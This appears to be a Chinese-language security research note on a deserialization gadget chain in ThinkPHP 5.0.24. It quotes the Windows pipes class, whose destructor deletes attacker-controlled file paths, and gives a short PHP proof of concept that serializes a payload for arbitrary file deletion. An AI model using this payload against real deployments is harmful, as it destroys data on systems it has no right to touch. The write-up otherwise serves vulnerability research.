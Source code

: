 



## 5.0.24反序列化利用链

反序列化复现首先需要自己构造一个反序列化触发点：

![image-20210417135947010](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210417135956.png)

	### Windows类-任意文件删除

在thinkphp/library/think/process/pipes/Windows.php:

```php
class Windows extends Pipes
{
    private $files = [];
    ……
    private function removeFiles()
    {
        foreach ($this->files as $filename) {
            if (file_exists($filename)) {
                @unlink($filename);
            }
        }
        $this->files = [];
    }
    ……
    public function __destruct()
    {
        $this->close();
        $this->removeFiles();
    }   
}
```

由于`$this->files`可控，我们可以利用其实现任意文件删除

poc：

```php
<?php
namespace think\process\pipes;

class Pipes{

}

class Windows extends Pipes
{
    private $files = [];

    public function __construct()
    {
        $this->files=['D:\tmp\1.txt'];
    }
}

echo base64_encode(serialize(new Windows()));
```
